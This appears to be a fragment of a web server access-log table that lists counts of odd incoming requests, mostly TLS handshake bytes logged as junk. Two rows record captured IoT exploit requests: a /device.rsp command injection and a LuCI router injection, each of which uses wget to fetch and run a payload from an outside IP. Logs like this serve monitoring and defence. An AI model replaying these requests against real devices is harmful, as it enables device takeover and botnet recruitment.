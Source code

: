 | 115 |                     1 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                   |
| 116 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03U\xB8\x90\x94\x9A`\xC7\xC1Q\x82\xF6tU\xC6\xC1\x8Bf\xEC\x09\xAD\xB2\xAA2\xC1\xE0RM\x5C\xFE-j\x80\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                        |
| 117 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xB1\xEF\x01\x1Ct\xF4\x13\xF7\xC0\xA3\xF5U\xC0\x5C\x8F\xDB\xCA\xC9\x05I\xCAQa\x8C\xCA6\xDC:\x88U\x8Ch\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                  |
| 118 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xBD\xDD\xC7\x8Ft\xE4\xE9\x0BIj&\xF3\xD9ym}\xED\x83\x8C;\xDFD\xCF\xFD\xEDw\xB2\xC4\x09A#`\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                              |
| 119 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x0373\xD4\x11\xF8\xA9\x05\x92\xDFM\xE8'\x8F\x88X\xC8\xD8\xBCM\xD0\xAB\xEE_\xC2]\xDBv?\xFE(Lk\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                              |
| 120 |                     1 | \x16\x03\x03\x01\xA5\x01\x00\x01\xA1\x03\x03?3#s4\x0F\xF1\x9E(\xB3'\x1E\xD1\x99;!Jwva\xC6\x1E\xDC\x85\xD3<\x8A0\x81>\xF3r \x07\x0Er=\x95:\xF3\xF3\xAF\xDA\xB6\xC6\xF3\xDD\x91G\x22k\xFA\xDFm\xCD:-i\x1D\x8B3;\xD6q\x11\x00\x8A\x00\x16\x003\x00g\xC0\x9E\xC0\xA2\x00\x9E\x009\x00k\xC0\x9F\xC0\xA3\x00\x9F\x00E\x00\xBE\x00\x88\x00\xC4\x00\x9A\xC0\x08\xC0\x09\xC0#\xC0\xAC\xC0\xAE\xC0+\xC0                                  |
| 121 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\xFA&\x9D\xEC)\xD8J\xFB\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                                 |
| 122 |                     1 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+http%3A%2F%2F103.163.215.73%2Fmoo+-O-+|+sh%60) HTTP/1.1                                                                                                                                                                                                                                                                                    |
| 123 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x1D\xBF\xC3Q;\x9BqT!\x12K\x06\x9E\xCB\x90\xBE\xCA\xE5\xEC\x13\x1F\xD26                                                                                                                                                                                                                                                                                                                  |
| 124 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03|\x85\x19\x1CK\xC5c\xFDGr\xBF\xC4\x9F\x00\xB9\xCC\x97\xD0\x00%\xC2\xD4k\xFB\x85lp_|\xD0\xF6\x9B\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                        |
| 125 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03\x99\x89\x9B\x9FGv\x95,\xCFR\xC9n\xDB\xBB\xC5\xCC\xF7\xDF\xE6I\x7F\x87.eGM\xB0\x9F\xC5\x05Z\xB0\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                                       |
| 126 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03u\xAEe\xAF>6h8\xD1/Z                                                                                                                                                                                                                                                                                                                                                               |
| 127 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\x96M{\x9FTPdO\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                                          |